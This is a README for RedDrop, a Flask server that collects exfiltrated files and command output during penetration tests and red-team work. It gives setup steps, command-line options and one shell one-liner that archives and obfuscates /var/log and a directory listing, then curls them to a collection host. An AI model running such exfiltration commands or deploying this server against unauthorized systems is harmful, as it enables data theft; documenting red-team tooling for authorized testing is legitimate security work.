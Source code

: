 ![Red Drop](docs/RedDrop.png)
# RedDrop Exfil Server
RedDrop Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [File Upload](docs/FileUpload.md)
- [Automatic Payload Processing](docs/PayloadProcessing.md)
- [Automatic Archive Extraction](docs/ArchiveExtraction.md)
- [JSON Logging](docs/JSONLogging.md)
- [Configurable Options](docs/Configurations.md)

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired

## Demo
[![Demo](https://img.youtube.com/vi/x9KmGCfyyZ0/0.jpg)](https://www.youtube.com/watch?v=x9KmGCfyyZ0)
---

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authorization or authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
mkdir uploads logs
docker run -t -v "$PWD/uploads:/reddrop/uploads" -v "$PWD/logs:/reddrop/logs" -p "80:80" -n reddrop cyberbutler/reddrop-exfil-server -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python reddrop-server.py -h
```

### Options
```bash
python reddrop-server.py -h

usage: reddrop-server.py [-h] [--host HOST] [--port PORT] [-c CONFIG] [--dump-config] [--debug] [-p {hex,openssl-aes256-pbkdf2,gzip,b64}]
                         [-A | --auto-process | --no-auto-process] [--auto-extract-tar]
                         [--encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD]

                      +:                     
                    .*##-                    
                   :##**#+                   
                  +#*****##:                 
                :##********#+                
               =#***********#+               
              =#******#******#*              
            .+#******#-*#*****##-            
           -#******#*.  =#******#*           
          +#******#+     :##*****##:         
        .*#*****##-        +#******#=        
       :#******#+.          -#******#+       
      -#******#-             :##*****#*.     
     +#******#:               .*#*****##:    
   :##*****#*.                  =#******#+   
    *#****#-                     .*#****#-   
   +#***##.                        =#***##:  
  +#****##.                        +#*****#: 
 +#****##.                          =#*****#.
:#*****#.                            ******#=
*#******         Red    Drop         -#******
#******+                             :#*****#
#*******                             -#*****#
*#*****#.                            +*******
-#*****#*                           -#*****#=
 *#*****#*.                        =#******#.
  *#******#=.                    -*#******#- 
   +#*******#*-               :+##******##:  
    -##*******##*+=-:...::-=+##********#*.   
      -*#**********#######***********#+:     
        -*#***********************##+.       
          .=+##***************##*=:          
              :-=+**######**+=:              

     A Webserver for File and Data Exfiltration.
        Author: @cyberbutler/@thecyberbutler

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default: 0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML (default: False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can be used more than once to define multiple process_list functions. Use this
                        flag in the order in which you wish to process received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on detected data. This option is enabled by default, but should be disabled (--no-
                        auto-process) when you receive output you don't expect. Such as in the case of Base64 decoding being run on output that
                        is not Base64 encoded. Instead, force the process with the `-p` flag. (default: True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the server. (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt. (default: EncryptMe)

Far more configuration options exist which must be specified in Environment Variables, use `--dump-config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar cz /var/log | base64 | xxd -ps | gzip | openssl enc -aes-256-cbc -pass 'pass:EncryptMe' -e -a -pbkdf2 | curl 172.17.0.1$PWD -F 'logs=@-' -F "listing=`ls -al * | gzip | base64`"
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality
